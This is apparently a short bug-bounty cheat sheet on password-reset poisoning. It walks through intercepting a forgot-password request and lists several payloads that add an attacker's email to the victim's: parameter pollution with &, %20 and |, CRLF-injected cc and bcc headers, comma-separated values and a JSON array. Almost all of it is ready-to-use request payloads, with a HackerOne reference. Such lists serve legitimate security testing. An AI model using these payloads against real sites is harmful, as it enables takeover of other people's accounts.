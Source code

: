 **Step 1**

Click forgot password

**Step 2**

Intercept the request and see the victim’s email address.

Add attacker email as second parameter using &

```
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```

Add attacker email as second parameter using %20

```
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```

Add attacker email as second parameter using |

```
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```

Add attacker email as second parameter using cc

```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

Add attacker email as second parameter using bcc

```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```

Add attacker email as second parameter using ,

```
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```

Add attacker email as second parameter in json array

```
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

************Step 3************

Forward the request and if you receive and email to reset the victim’s password, then it’s vulnerable.

**Reference**

[https://hackerone.com/reports/1175081](https://hackerone.com/reports/1175081)
